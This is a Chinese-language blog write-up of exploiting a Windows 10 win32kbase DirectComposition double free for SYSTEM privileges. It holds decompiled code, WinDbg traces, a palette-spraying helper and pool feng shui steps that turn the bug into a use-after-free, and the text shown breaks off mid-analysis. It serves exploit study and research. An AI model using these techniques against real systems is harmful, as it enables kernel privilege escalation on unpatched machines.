









作者：k0shl 转载请注明出处：https://whereisk0shl.top/Dark Composition Exploit in Ring0.html
尝试写这个Exploit的起因是邱神 @pgboy1988 在3月份的一条微博，这是邱神和社哥在cansecwest2017上的议题《Win32k Dark Composition－－Attacking the Shadow Part of Graphic Subsystem》，后来邱神在微博公开了这个议题的slide，以及议题中两个demo的PoC，当时我也正好刚开始学习内核漏洞，于是就想尝试将其中一个double free的demo写成exploit（事实证明我想的太简单了）。
后来由于自己工作以及其他在同时进行的一些flag，还有一些琐碎事情的原因，这个Exploit拖拖拉拉了半年时间，其中踩了很多坑，但这些坑非常有趣，于是有了这篇文章，我会和大家分享这个Exploit的诞生过程。
我在6月份完成了Exploit的提权部分，随后遇到了一个非常大的困难，就是对Handle Table的修补，10月份完成了整个漏洞的利用。
非常非常感谢邱神在我尝试写Exploit的过程中对我的指点，真的非常非常重要！也非常感谢我的小伙伴大米，在一些细节上的讨论碰撞，解决了一些问题，很多时候自己走不出的弯如果有大佬可以指点，或者和小伙伴交流讨论，会解决很多自己要好久才能解决的问题。
最后我还是想说，十一长假时完成这个Exploit的时候我差点从椅子上跳起来，whoami->SYSTEM那一刻我突然觉得，这个世界上怕是没有什么比system&&root更让我兴奋的事情了！

调试环境：
Windows 10 x64 build 1607
win32kbase.sys 10.0.14393.0
Windbg 10.0.15063.468
IDA 6.8
邱神的slide和PoC: https://github.com/progmboy/cansecwest2017
我会默认阅读此文的小伙伴们已经认真看过邱神和社哥的slide，关于slide中提到的知识点我就不再赘述，欢迎师傅们交流讨论，批评指正，感谢阅读！
关于Direct Composition在slide里有相关描述，如果想看更详细的内容可以参考MSDN(https://msdn.microsoft.com/en-us/library/windows/desktop/hh437371(v=vs.85).aspx)，这里我就不再赘述，我最开始复现这个double free漏洞的时候碰到了第一个问题，当时PoC无法触发这个漏洞，会返回NTSTATUS 0xC00000D，我重新跟踪了一下调用过程，发现了第一个问题的解决方法。

首先，在Win10 RS1之后Direct Compostion的NTAPI引用可以通过NtDCompositionProcessChannelBatchBuffer调用，通过enum DCPROCESSCOMMANDID管理。
enum DCPROCESSCOMMANDID
{
nCmdProcessCommandBufferIterator,
nCmdCreateResource,
nCmdOpenSharedResource,
nCmdReleaseResource,
nCmdGetAnimationTime,
nCmdCapturePointer,
nCmdOpenSharedResourceHandle,
nCmdSetResourceCallbackId,
nCmdSetResourceIntegerProperty,
nCmdSetResourceFloatProperty,
nCmdSetResourceHandleProperty,
nCmdSetResourceBufferProperty,
nCmdSetResourceReferenceProperty,
nCmdSetResourceReferenceArrayProperty,
nCmdSetResourceAnimationProperty,
nCmdSetResourceDeletedNotificationTag,
nCmdAddVisualChild,
nCmdRedirectMouseToHwnd,
nCmdSetVisualInputSink,
nCmdRemoveVisualChild
};
这个NtDCompositionChannelBatchBuffer函数在win32kbase.sys中，它的函数逻辑如下：
__int64 __fastcall DirectComposition::CApplicationChannel::ProcessCommandBufferIterator(DirectComposition::CApplicationChannel *this, char *a2, unsigned int a3, __int64 a4, unsigned __int32 *a5)
{
switch ( v10 )
{
case 9:
v11 = v6;
if ( v5 >= 0x10 )
{
v6 += 16;
v5 -= 16;
v12 = DirectComposition::CApplicationChannel::SetResourceFloatProperty(
v7,
*((_DWORD *)v11 + 1),
*((_DWORD *)v11 + 2),
*((float *)v11 + 3));
goto LABEL_10;
}
v8 = -1073741811;
goto LABEL_2;
case 7:
v42 = v6;
if ( v5 >= 0xC )
{
v6 += 12;
v5 -= 12;
v12 = DirectComposition::CApplicationChannel::SetResourceCallbackId(
v7,
*((_DWORD *)v42 + 1),
*((_DWORD *)v42 + 2));
goto LABEL_10;
}
v8 = -1073741811;
goto LABEL_2;
case 1:
.....
}
关于enum DCPROCESSCOMMAND中的API调用在ProcessCommandBufferIterator是通过switch case管理的，我直接跟到关键的nCmdSetResourceBufferProperty函数。
else if ( v9 == 11 ) // if v9 == setbufferproperty
{
v22 = v6;
if ( v5 < 0x10 ) // v5 = 0x5d
{
v8 = -1073741811;
}
else
{
v6 += 16; // pointer to resource data
v5 -= 16; // //size - resource header size
v23 = *((_DWORD *)v22 + 3); // v23 = get data size in resource header
v24 = (v23 + 3) & 0xFFFFFFFC; // v24 > v5
if ( v24 < v23 || v5 < v24 ) // size of type must 0x4c
{
LABEL_144:
v8 = -1073741811;
}
else
{
v6 += v24;
……
这里v9的值是enum的值，可与之前的enum定义做比对，当其值为0xB的时候，进入CmdSetResourceBufferProperty的case逻辑，这里比较关键的是else逻辑中的if ( v24 < v23 || v5 < v24 )，如果满足其中一个条件为1，就会返回0xC00000D，返回NTSTATUS并不会进入SetBufferProperty函数处理，因此没有触发漏洞。
而由于之前v24会与0xFFFFFFFC做与运算，因此这个值只有满足v5=v24才会令第二个值为0，因此这里v5的值，也就是PoC中sizeof(szBuf)的值二进制低4位必须为1100，这里之前PoC的sizeof(szBuf)的值为0x4d，只需要减去一个字节，令sizeof(szBuf)＝0x4c，就可以不进入这个if语句。最终触发漏洞。

下面来分析一下这个double free漏洞，问题存在于SetBufferProperty函数中，函数中会创建一个池，用来存放resource的dataBuf，在函数中会调用win32kbase!StringCbLengthW，获取dataBuf的长度，随后进行拷贝，但是如果StringCbLengthW失败，则会返回一个NTSTATUS，随后释放这个pool，但是释放后没有对池指针置NULL，最后在releaseresource的时候会检查这个databuf指针是否为0，不为0则会freepool，而由于之前没有置NULL，从而引发double free。下面来看下这个漏洞过程。
第一步我们通过CreateResource创建hResource，并且返回这个resource的句柄。
kd> g
Breakpoint 1 hit
win32kbase!NtDCompositionProcessChannelBatchBuffer:
ffff87e7`8d3f30c0 488bc4 mov rax,rsp
kd> ba e1 win32kbase!DirectComposition::CApplicationChannel::ProcessCommandBufferIterator
kd> g
Breakpoint 2 hit
win32kbase!DirectComposition::CApplicationChannel::ProcessCommandBufferIterator:
ffff87e7`8d3f43c0 44884c2420 mov byte ptr [rsp+20h],r9b
//***************rdx存放resource句柄
kd> r rdx
rdx=ffff8785c3cb0000
kd> dd ffff8785c3cb0000 l1//hresource值为1
ffff8785`c3cb0000 00000001
第二步进入NtDCompositionProcessChannelBatchBuffer函数处理，就是第二小节中我们介绍的switch case处理，首先enum的值为0xb，进入SetBufferProperty处理。
kd> ba e1 win32kbase!NtDCompositionProcessChannelBatchBuffer
kd> g
Break instruction exception - code 80000003 (first chance)
0033:00007ff7`ebc91480 cc int 3
kd> g
Breakpoint 0 hit
win32kbase!NtDCompositionProcessChannelBatchBuffer:
ffff87e7`8d3f30c0 488bc4 mov rax,rsp
kd> ba e1 win32kbase!DirectComposition::CApplicationChannel::ProcessCommandBufferIterator
kd> g
Breakpoint 1 hit
win32kbase!DirectComposition::CApplicationChannel::ProcessCommandBufferIterator:
ffff87e7`8d3f43c0 44884c2420 mov byte ptr [rsp+20h],r9b
kd> r rdx
rdx=ffff8785c4170000
//****************enum的值为0xb，代表setbufferproperty API
kd> dd ffff8785c4170000 l1
ffff8785`c4170000 0000000b
这里我们通过第二小节中的分析，修改了正确的szbuf大小，因此可以顺利进入SetBufferProperty函数中。
kd> p
win32kbase!DirectComposition::CApplicationChannel::ProcessCommandBufferIterator+0x217:
ffff87e7`8d3f45d7 498bca mov rcx,r10
//*************跳转到SetBufferProperty
kd> p
win32kbase!DirectComposition::CApplicationChannel::ProcessCommandBufferIterator+0x21a:
ffff87e7`8d3f45da ff1568270d00 call qword ptr [win32kbase!_guard_dispatch_icall_fptr (ffff87e7`8d4c6d48)]
kd> t
win32kbase!guard_dispatch_icall_nop:
ffff87e7`8d4179f0 ffe0 jmp rax
kd> p
win32kbase!DirectComposition::CExpressionMarshaler::SetBufferProperty:
ffff87e7`8d3f37c0 4c8bdc mov r11,rsp
第三步，进入SetBufferProperty，首先会分配一个池空间用于准备存放hresource的databuf，返回指向这个池的指针A。
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d70d:
ffff87e7`8d43d4cd e89e39fbff call win32kbase!Win32AllocPoolWithQuota (ffff87e7`8d3f0e70)
//***********分配池空间大小0x4c，正好是databuf的大小
kd> r rcx
rcx=000000000000004c
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d712:
ffff87e7`8d43d4d2 48894758 mov qword ptr [rdi+58h],rax
//*************rax存放的是指向池空间的指针A
kd> r rax
rax=ffff8785c01463f0
kd> !pool ffff8785c01463f0
ffff8785c0146000 size: 3b0 previous size: 0 (Allocated) Gfnt
ffff8785c01463b0 size: 30 previous size: 3b0 (Free) Free
//*************当前池处于Allocated状态
*ffff8785c01463e0 size: 60 previous size: 30 (Allocated) *DCdn Process: eba5d6c42906b9b2 Owning component : Unknown (update pooltag.txt)
ffff8785c0146440 size: 60 previous size: 60 (Allocated) CSMr
第四步，在向池空间拷贝databuf前，会先调用win32kbase!StringCbLengthW获得databuf的大小，但是如果StringCbLengthW返回错误，则会释放掉这个池空间。
//*************调用StringCbLengthW函数
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d726:
ffff87e7`8d43d4e6 e849b30300 call win32kbase!StringCbLengthW (ffff87e7`8d478834)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d72b:
ffff87e7`8d43d4eb 85c0 test eax,eax
//**********函数失败返回NTSTATUS
kd> r eax
eax=80070057
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d72d:
ffff87e7`8d43d4ed 782c js win32kbase! ?? ::FNODOBFM::`string'+0x1d75b (ffff87e7`8d43d51b)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d75b:
ffff87e7`8d43d51b 488b4f58 mov rcx,qword ptr [rdi+58h]
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d75f:
ffff87e7`8d43d51f bb0d0000c0 mov ebx,0C000000Dh
//********失败后调用FreePool
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d764:
ffff87e7`8d43d524 e8272af9ff call win32kbase!Win32FreePool (ffff87e7`8d3cff50)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d769:
ffff87e7`8d43d529 90 nop
kd> !pool ffff8785c01463f0
Pool page ffff8785c01463f0 region is Unknown
ffff8785c0146000 size: 3b0 previous size: 0 (Allocated) Gfnt
ffff8785c01463b0 size: 30 previous size: 3b0 (Free) Free
//*********可以看到申请的池现在是Free状态
*ffff8785c01463e0 size: 60 previous size: 30 (Free ) *DCdn Process: 145a77c888d83932
Owning component : Unknown (update pooltag.txt)
ffff8785c0146440 size: 60 previous size: 60 (Allocated) CSMr
但是释放后，没有对指针进行置NULL，导致调用ReleaseResource时，会再次释放这个池空间，最后导致double free的发生。
//*********调用ReleaseResource函数后会调用CBaseExpressionMarsharler
kd> g
Breakpoint 3 hit
win32kbase!DirectComposition::CBaseExpressionMarshaler::~CBaseExpressionMarshaler:
ffff87e7`8d3f2d40 4053 push rbx
kd> kb
RetAddr : Args to Child : Call Site
ffff87e7`8d3f3b74 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : win32kbase!DirectComposition::CBaseExpressionMarshaler::~CBaseExpressionMarshaler
ffff87e7`8d3f3d7a : ffff8785`c1b94970 00000000`00000000 00000000`00000000 00000000`00000297 : win32kbase!DirectComposition::CExpressionMarshaler::`scalar deleting destructor'+0x14
00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : win32kbase!DirectComposition::CApplicationChannel::ReleaseResource+0x1ea
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d688:
ffff87e7`8d43d448 e8032bf9ff call win32kbase!Win32FreePool (ffff87e7`8d3cff50)
//**********释放这个已Free的指针
kd> r rcx
rcx=ffff8785c01463f0
kd> !pool ffff8785c01463f0
Pool page ffff8785c01463f0 region is Unknown
ffff8785c0146000 size: 3b0 previous size: 0 (Allocated) Gfnt
ffff8785c01463b0 size: 30 previous size: 3b0 (Free) Free
//*********当前已处于释放状态
*ffff8785c01463e0 size: 60 previous size: 30 (Free ) *DCdn Process: 145a77c888d83932
Owning component : Unknown (update pooltag.txt)
ffff8785c0146440 size: 60 previous size: 60 (Allocated) CSMr
//***********最终引发bugcheck，double free
BAD_POOL_CALLER (c2)
The current thread is making a bad pool request. Typically this is at a bad IRQL level or double freeing the same allocation, etc.
Arguments:
Arg1: 0000000000000007, Attempt to free pool which was already freed
关于为什么StringCbLengthW函数会失败，在后面利用的过程中我会提到，因为想利用这个漏洞，我们需要它后 面返回成功，实现szbuf对内核空间的数据拷贝。
其实我六月份开始写这个漏洞的时候关于GDI attack的方法我没有找到paper，导致用palette的时候逆向了很多函数，最后写了这个exp，后来有了几篇关于GDI的paper，讲述的还是比较详细的，后面我会给这个paper的链接。
其实我也思考了关于bitmap的方法，其实理论上应该也可以的，但我在google上当时搜到了一篇文章，提到了一句关于palette的信息，当时那篇paper上说palette的kernel object结构更简单，如果用bitmap的话，如果覆盖bitmap的kernel object的其他结构的话，可能导致在其他时候会产生一些问题，在内核漏洞利用中如果产生crash可能直接就bsod了...
在这个double free中完全可以只用palette来完成攻击，因为之前做bitmap比较多，对bitmap比较熟悉，因此在我的exploit中，palette只起到一个过渡作用，最终还是通过bitmap来完成任意地址读写。
关于这个double free的利用思路是，首先在第一次free的时候会产生一个hole，然后我们用palette占用这个hole，然后第二次free的时候实际上释放的是这个palette，然而因为不是通过deleteobject释放palette，这个palette的handle并没有被消除，这样我们可以通过第三次用可控的kernel object填充，从而控制palette的内核对象空间，而我们还可以对palette的句柄进行操作，这个过程完成double free -> use after free -> write what where的过程。

OK，第一步我们需要创造一个稳定的内核空洞，比较巧的是SetBufferProperty创建的这个pool是一个session paged pool，而Accelerator的kernel object也是一个session paged pool，而GDI的palette和bitmap也是session paged pool，因此我使用了Nicolas Economous的方法来制造这个稳定的pool hole（https://www.coresecurity.com/system/files/publications/2016/10/Abusing-GDI-Reloaded-ekoparty-2016_0.pdf）。
//step 1
kd> p
_dark_composition_+0x18c7:
0033:00007ff6`25ca18c7 4d8bc6 mov r8,r14
kd> p
_dark_composition_+0x18ca:
0033:00007ff6`25ca18ca b901000000 mov ecx,1
kd> r r8
r8=ffff8ace81fa9310
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
ffff8ace81fa9000 is not a valid large pool allocation, checking large session pool...
ffff8ace81fa9260 size: 20 previous size: 0 (Allocated) Frag
ffff8ace81fa9280 size: 10 previous size: 20 (Free) Free
ffff8ace81fa9290 size: 70 previous size: 10 (Allocated) Uswe
//*********创建Accelerator kernel object
*ffff8ace81fa9300 size: 100 previous size: 70 (Allocated) *Usac Process: ffffa6018eb56080
Pooltag Usac : USERTAG_ACCEL, Binary : win32k!_CreateAcceleratorTable
……
//step 2
kd> g
Break instruction exception - code 80000003 (first chance)
_dark_composition_+0x2460:
0033:00007ff6`25ca2460 cc int 3
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
ffff8ace81fa9000 is not a valid large pool allocation, checking large session pool...
ffff8ace81fa9260 size: 20 previous size: 0 (Allocated) Frag
ffff8ace81fa9280 size: 10 previous size: 20 (Free) Free
ffff8ace81fa9290 size: 70 previous size: 10 (Allocated) Uswe
//******DeleteAccelerator制造pool hole
*ffff8ace81fa9300 size: 100 previous size: 70 (Free ) *Usac
Pooltag Usac : USERTAG_ACCEL, Binary : win32k!_CreateAcceleratorTable
我通过DeleteAccelerator释放这个Accelerator制造了一个pool hole，随后我们调用SetBufferProperty来占用这个pool hole，之后由于StringCbLengthW失败，这个pool hole又会被释放出来。
//step 1
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d70d:
ffff8aae`1923d4cd e89e39fbff call win32kbase!Win32AllocPoolWithQuota (ffff8aae`191f0e70)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d712:
ffff8aae`1923d4d2 48894758 mov qword ptr [rdi+58h],rax
kd> r rax
rax=ffff8ace81fa9310
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
//******在SetBufferProperty中会在pool hole重新申请池空间
*ffff8ace81fa9300 size: 100 previous size: 70 (Allocated) *DCdn Process: ffffa6018eb56080
Pooltag DCdn : DCOMPOSITIONTAG_DEBUGINFO, Binary : win32kbase!DirectComposition::C
//step 2
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d726:
ffff8aae`1923d4e6 e849b30300 call win32kbase!StringCbLengthW (ffff8aae`19278834)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d72b:
ffff8aae`1923d4eb 85c0 test eax,eax
//win32kbase!StringCbLengthW函数失败返回错误NTSTATUS
kd> r eax
eax=80070057
//step 3
//************这是第一次free
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d764:
ffff8aae`1923d524 e8272af9ff call win32kbase!Win32FreePool (ffff8aae`191cff50)
kd> p
win32kbase! ?? ::FNODOBFM::`string'+0x1d769:
ffff8aae`1923d529 90 nop
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
//**************free pool hole
*ffff8ace81fa9300 size: 100 previous size: 70 (Free ) *DCdn
Pooltag DCdn : DCOMPOSITIONTAG_DEBUGINFO, Binary : win32kbase!DirectComposition::C
第二步，我们通过CreatePalette来申请GDI kernel address占用这个hole，关于palette的占用大小，当时我为了做这个稳定的pool fengshui，我跟了CreatePalette相关函数很长时间，做了很多尝试才发现如何控制申请的大小，不过最近有一篇paper，给出了一个“公式”，这个大小和struct LOGPALETTE结构体成员有关，这里我就不重复逆向的繁琐过程了（https://siberas.de/blog/2017/10/05/exploitation_case_study_wild_pool_overflow_CVE-2016-3309_reloaded.html）。
HPALETTE createPaletteofSize(int size) {
// we alloc a palette which will have the specific size on the paged session pool.
if (size <= 0x90) {
printf("bad size! can't allocate palette of size < 0x90!\n");
return 0;
}
int pal_cnt = (size - 0x90) / 4;
int palsize = sizeof(LOGPALETTE) + (pal_cnt - 1) * sizeof(PALETTEENTRY);
LOGPALETTE *lPalette = (LOGPALETTE*)malloc(palsize);
memset(lPalette, 0x4, palsize);
lPalette->palNumEntries = pal_cnt;
lPalette->palVersion = 0x300;
return CreatePalette(lPalette);
}
我们通过CreatePalette可以申请和hrescoure->databuf相同大小空间的pool，去占用这个pool hole，以便在下一步中double free掉这个palette对象。
//createpalette创建palette占用pool hole
kd> p
win32u!NtGdiCreatePaletteInternal:
0033:00007ffd`13ab25f0 4c8bd1 mov r10,rcx
kd> gu
_dark_composition_+0x1b97:
0033:00007ff6`25ca1b97 488b5d58 mov rbx,qword ptr [rbp+58h]
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
//**************重新覆盖palette，这个palette会在第二次free时不知情的情况下free掉
*ffff8ace81fa9300 size: 100 previous size: 70 (Allocated) *Gh08
Pooltag Gh08 : GDITAG_HMGR_PAL_TYPE, Binary : win32k.sys
随后我们通过Release Resource会释放这个palette kernel object（double free漏洞），这样又产生了一个pool hole，而这个palette释放后，它的句柄仍然存在，我们仍然可以调用到这个句柄对palette进行操作。
//Release Resource会释放掉palette
kd> p
_dark_composition_+0x1c08:
0033:00007ff6`25ca1c08 41ffd5 call r13
kd> p
_dark_composition_+0x1c0b:
0033:00007ff6`25ca1c0b 488d153e2c0100 lea rdx,[_dark_composition_+0x14850 (00007ff6`25cb4850)]
kd> !pool ffff8ace81fa9310
Pool page ffff8ace81fa9310 region is Paged session pool
//*********palette在不知情的情况下被释放，double free变成use after free
*ffff8ace81fa9300 size: 100 previous size: 70 (Free ) *Gh08
Pooltag Gh08 : GDITAG_HMGR_PAL_TYPE, Binary : win32k.sys
接下来，我们需要用可控的内核对象来占用这个hole，其实这种情况下，有很多内核对象可以用，但是我想到之前的SetBufferProperty就是为了将用户可定义的databuf拷贝到内核对象空间。也就是说，如果我们可以在SetBufferProperty函数创建池空间后不让它free，也就是说StringCbLengthW能够成功返回，就可以不让它free了，而且可以通过databuf来控制内核空间的值。
ffff8aae`1923d4e6 e849b30300 call win32kbase!StringCbLengthW (ffff8aae`19278834)
ffff8aae`1923d4eb 85c0 test eax,eax
ffff8aae`1923d4ed 782c js win32kbase! ?? ::FNODOBFM::`string'+0x1d75b (ffff8aae`1923d51b)
//*************如果stringcblenghtw成功，则会进入拷贝逻辑
ffff8aae`1923d4ef 488b5530 mov rdx,qword ptr [rbp+30h]
ffff8aae`1923d4f3 4c8bc6 mov r8,rsi
ffff8aae`1923d4f6 488b4f58 mov rcx,qword ptr [rdi+58h]
ffff8aae`1923d4fa 83476002 add dword ptr [rdi+60h],2
//************databuf拷贝
ffff8aae`1923d4fe e8b5b20300 call win32kbase!StringCbCopyW (ffff8aae`192787b8)
那么如何让StringCbLengthW函数成功呢？首先我们要分析为什么StringCbLengthW会返回错误。在StringCbLength有这样一处逻辑。
do//v5是szBuf，v7是长度
{
if ( !*v5 )//若v5的值是0x00，则break跳出循环
break;
++v5;//否则szBuf指针后移
--v7;//计数器减1
}
while ( v7 );//若长度一直减到0
